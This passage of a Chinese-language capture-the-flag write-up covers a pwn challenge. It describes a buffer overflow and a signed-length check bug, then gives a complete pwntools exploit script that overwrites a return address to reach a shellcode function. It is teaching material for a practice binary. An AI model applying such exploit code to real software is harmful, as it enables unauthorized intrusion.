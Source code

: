 得到 2FA 就可以進入 admin 的 dashboard 了

## PWN

### Welcome to the World of Ave Mujica🌙

目標：要跳到 shellcode 那邊，地址在 0x401256
漏洞1： main()函數裡有一個read可以做overflow
漏洞2： readint8()只檢查上界，不檢查負數 -> 只要打-1就可以變成255

Script (前半段來自 CryptoCat 的 pwn 影片教學腳本模板):

```=py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
b *0x401347
continue
'''.format(**locals())

# Binary filename
exe = './chal'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
# EXPLOIT GOES HERE
# ===========================================================

io = start()

io.sendlineafter(b':', b'yes')

io.sendlineafter(b':', b'-1')

payload = b'A' * 160  
payload += b'B' * 8   
payload += p64(0x401256)  

payload = payload.ljust(255, b'C')

io.send(payload)

io.interactive()
```
